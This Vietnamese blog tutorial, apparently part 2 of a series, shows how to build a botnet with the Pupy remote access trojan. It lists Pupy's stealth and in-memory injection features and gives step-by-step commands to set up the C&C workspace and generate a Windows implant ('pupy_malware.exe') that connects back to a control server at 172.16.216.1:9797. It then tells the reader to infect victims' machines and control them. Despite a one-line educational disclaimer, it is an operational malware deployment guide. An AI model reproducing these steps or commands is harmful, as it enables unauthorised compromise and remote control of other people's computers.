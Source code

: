 ## I. RAT là gì?
Các bạn có thể đọc phần 1 [tại đây](https://viblo.asia/p/rat-la-gi-huong-dan-xay-dung-he-thong-dieu-khien-nhieu-thiet-bibotnet-voi-rat-pupyphan-1-63vKjVwbK2R).

**Chú ý**:  Đây là bài viết mang tính chất học tập khuyến cáo mọi người không nên áp dụng vào thực tế.
## II.Hướng dẫn xây dựng mạng botnet với RAT pupy
### 1.     Pupy là gì?
&ensp; **Pupy** là một RAT đa nền tảng được xây dựng bằng python. Khi hoạt động pupy để lại rất ít dấu vết trên máy nạn nhân.  Pupy có thể giao tiếp với CnC bằng nhiều phương thức trao đổi giao tiếp khác nhau,  đi vào các tiến trình  bằng cách sử dụng reflective injection và tải mã python từ xa để thực thi.<br>
&ensp; Các tính năng cơ bản:
*  Với Windows payload có thể tải trình thông dịch python từ bộ nhớ với reflective DLL (nó không động chạm gì đến ổ cứng.)
* Pupy có thể được đóng gói thành một file.py duy nhất và có thể thực thi độc lập với hđh  chỉ yêu cầu các thư viện python chuẩn(PyCrypto có thể được thay thế bằng AES hoặc RSA nếu như PyCryoto không được kích hoạt trên victim).
* Reflectively migrate vào các tiến trình khác.
* Dễ dàng mở rộng, các modul đơn giản  và được sắp xếp theo OS và các thể loại.
* Tương tác từ xa từ pupy shell và tự động hoàn thành các thuộc tính từ xa.
* Có thể thực hiện lệnh trên nhiều victim cùng một lúc đó là cơ sở để có thể tạo thành mạng botbet.
* Thực thi PE file từ  xa hoặc từ bộ nhớ của victim.
<br>

&ensp; Pupy có thể generate file thực thi cho nhiều nền tảng:<br>
| Format  | Architecture | Short Name |
| -------- | -------- | -------- |
|Android Package|x86 & ARMv7|apk|
|Linux Binary|x86|lin_x86|
|Linux Binary|x64|lin_x64|
|Linux Shared Object|x86|so_x86|
|Linux Shared Object|x64|so_x64|
|Windows PE Executable|x86|exe_x86|
|Windows PE Executable|x64|exe_x64|
|Windows DLL|x86/x64|dll_x86/x64|
|Python Script|x86 & x64|py|
|PyInstaller|x86 & x64|pyinst|
|Python Oneliner|x86 & x64|py_oneliner|
|Powershell|x86 & x64|ps1|
|Powershell Oneliner|x86 & x64|ps1_oneliner|
|Ducky Script|N/A|rubber_ducky|

### 2. Các thư viện và công cụ cần dùng:
* mã nguồn pupy. link: https://github.com/n1nj4sec/pupy
* python 2.7 (cài đặt python 2.7 trên máy chủ C&C server.
* máy chủ linux (dùng làm C&C server) hoặc laptop cá nhân sử dụng Linux
* jdk, sdk cho việc generate file.apk
### 3.  Các bước thực hiện:
Download mã nguồn pupy:
```
git clone --recursive https://github.com/n1nj4sec/pupy
cd pupy
```
Sau đó, tạo môi trường làm việc với pupy:<br>
&ensp; Script *pupy/create-workspace.py* này sẽ tạo môi trường hoạt động cho pupy và tạo symlink tới pupysh ở *~./local/bin*.<br>
Nếu muốn tạo môi trường phiên bản nhẹ(không có các build toolchain):<br>

```python create-workspace.py -DG pupyw```

Tạo môi trường bản đầy đủ:

```python create-workspace.py pupyws```

![](https://images.viblo.asia/60bd9642-be84-4460-9dfe-9b9e6f1d1de6.png)

Sau khi cài đặt xong, tạo một symlink để gọi pupy từ terminal:
```
export PATH=$PATH:~/.local/bin; pupysh
pupyws/bin/pupysh
```
Sau khi thiết lập xong ta có thể chạy **pupy** từ terminal. Khởi chạy:

![](https://images.viblo.asia/f960c372-0d89-4b3c-b983-ff914db82b9f.png)

Tạo file thực thi client với modul ***gen*** trong pupy:

![](https://images.viblo.asia/65c7a626-b863-46da-9386-33752c8c972d.png)

Demo tạo client Windows 32bit với modul “gen”:
![](https://images.viblo.asia/e9c26563-8dfe-4bd6-a97d-477f8c50cde0.png)

```gen -f client -O windows -A x86 -o pupy_malware.exe  connect --host 172.16.216.1:9797 -t ssl```

Trong đó: 
* -f: định dạng của file 
* -O: hđh hoạt động
* -A: nền tảng(32bits/64bits)
* -o: ouput file name
* connect –host: địa chỉ máy chủ CnC server
* -t: kiểu giao tiếp(ssl, rsa, aes,..)

Sau khi thực thi xong lệnh trên ta sẽ nhận được 1 file .exe được lưu trong `pupyw/pupy_malware.exe`. Mang file này đi lây nhiễm và thực thi trên máy nạn nhân. Ta sẽ có được 1 bot.
<br>

Ta mở  port để lắng nghe kết nối từ client (bot):
```
listen -a <transport> <port> 
```
Trong đó:
* “transport” là phương thức transport đã thiết lập cho client  khi ta tạo client.
* "port" là cổng giao tiếp thiết lập ở phần generate client.

![](https://images.viblo.asia/cae1dc6f-d478-4eb0-8cac-34d7d08b16df.png)

Kiểm tra các kết nối đến **C&C server** `sessions`:

![](https://images.viblo.asia/26d94a80-d2df-4308-9f07-71d8e68fa66a.png)

Ở đây ta thấy có 1 client (bot) đang kết nối đến server. 
Kiểm tra các modul hỗ trợ cho clients `help -M`:

![](https://images.viblo.asia/8bcc9c7e-c5f8-4bc9-bd71-71284108d961.png)

Demo thực thi “command” hệ thống:

![](https://images.viblo.asia/ec79a9b1-b7a5-44e4-9e4f-71bd8fad3fbb.png)

Vậy là ta có thể điều khiển được máy nạn nhận.  Từ ví dụ trên ta có thể xây dựng được mạng botnet.

## III. Tài liệu tham khảo

* https://github.com/n1nj4sec/pupy/wiki